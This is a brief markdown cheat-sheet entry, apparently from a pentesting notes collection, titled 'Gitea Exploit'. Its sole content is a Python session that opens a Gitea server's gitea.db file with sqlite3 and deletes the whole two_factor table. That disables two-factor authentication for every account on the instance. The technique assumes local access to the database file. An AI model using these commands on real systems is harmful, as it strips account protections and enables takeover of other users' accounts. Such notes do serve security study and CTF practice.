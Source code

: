 ```yaml
---
title: Gitea Exploit
desc: Exploit Gitea.
tags: [Linux]
alts: []
website:
---
```


## Delete Two-Factor

```sh
victim@machine:/gitea/gitea$ python3

>>> import sqlite3
>>> conn=sqlite3.connect('gitea.db')
>>> conn.execute('delete from two_factor')
>>> conn.commit()
>>> conn.close()
```